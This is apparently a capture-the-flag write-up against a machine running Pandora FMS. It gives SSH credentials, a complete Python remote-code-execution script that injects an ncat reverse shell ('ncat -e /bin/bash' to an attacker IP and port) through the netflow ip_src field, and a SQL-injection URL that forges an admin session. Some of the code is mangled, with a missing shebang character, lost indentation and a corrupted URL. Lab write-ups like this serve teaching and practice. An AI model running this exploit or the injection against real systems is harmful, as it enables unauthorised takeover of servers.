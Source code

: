 After enumeration we find credentials for `daniel` we can ssh in with these

daniel:HotelBabylon23

browsing to `/var/www/pandora/pandora_console/index.php` 
we see that it is running Pandora FMS 


https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

---

### port forwarding

web gui is running on port 80, we must forward this to our host


```
!/usr/bin/python3

import requests

import sys

if len(sys.argv) != 6:

print("[+] Usage : ./rce.py target username password ip port")

exit()

target = sys.argv[1]

username = sys.argv[2]

password = sys.argv[3]

ip = sys.argv[4]

port = int(sys.argv[5])

request = requests.session()

login_info = {

"nick": username,

"pass": password,

"login_button": "Login"

}

login_request = request.post(

target+"/pandora_console/index.php?login=1",

login_info,

verify=False,

allow_redirects=True

)

resp = login_request.text

if "User not found in database" in resp:

print("[-] Login Failed")

exit()

else:

print("[+] Logged In Successfully")

print("[+] Sending crafted graph request ..")

body_request = {

"date": "0",

"time": "0",

"period": "0",

"interval_length": "0",

"chart_type": "netflow_area",

"max_aggregates": "1",

"address_resolution": "0",

"name": "0",

"assign_group": "0",

"filter_type": "0",

"filter_id": "0",

"filter_selected": "0",

"ip_dst": "0",

"ip_src": '";ncat -e /bin/bash {0} {1} #'.format(ip, port),

"draw_button": "Draw"

}

draw_url = target + "/pandora_console/index.php?sec=netf&sec2=operati=on/netflow/nf_live_view&pure=0"

request.post(draw_url, body_request)

print("[+] Check your netcat ;)")

# ################### END SCRIPT ######################## #

http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

```



